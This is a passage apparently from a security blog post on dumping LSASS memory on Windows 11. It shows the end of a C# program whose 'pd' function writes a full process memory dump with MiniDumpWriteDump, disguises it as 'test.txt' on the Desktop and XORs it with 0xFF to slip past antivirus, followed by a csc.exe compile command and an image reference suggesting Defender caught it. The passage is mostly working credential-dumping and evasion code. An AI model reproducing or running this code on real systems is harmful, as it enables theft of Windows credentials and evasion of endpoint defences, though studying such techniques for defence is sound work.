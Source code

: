 ``` cs
        }

        CloseHandle(hFileMapping);
        CloseHandle(hFile);
    }

    static void pd(IntPtr hProcess, uint pid)
	{
		string desktopPath = Environment.GetFolderPath(Environment.SpecialFolder.Desktop);
        string outputPath = Path.Combine(desktopPath, "test.txt");
        Console.WriteLine("Output Path: " + outputPath);
		IntPtr hFile = CreateFile(outputPath, 0x40000000, 0, IntPtr.Zero, 2, 0, IntPtr.Zero);
		if (hFile == IntPtr.Zero)
		{
			Console.WriteLine("Failed to create dump file");
			return;
		}

		if (!MiniDumpWriteDump(hProcess, pid, hFile, 0x00000002, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero))
		{
			Console.WriteLine("Failed to write dump");
			CloseHandle(hFile);
			return;
		}

		Console.WriteLine("Dump successfully written to: " + outputPath);

		CloseHandle(hFile);

		byte[] dumpData = File.ReadAllBytes(outputPath);

		for (int i = 0; i < dumpData.Length; i++)
		{
			dumpData[i] ^= 0xFF;
		}

		File.WriteAllBytes(outputPath, dumpData);

		Console.WriteLine("Dump XORed and written back to: " + outputPath);
	}

}

```

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe .\test.cs                           
```

![](/assets/posts/2024-06-03-LSASS-Dumping-Windows11-Part2/defender_caught_lsass_write.bmp)
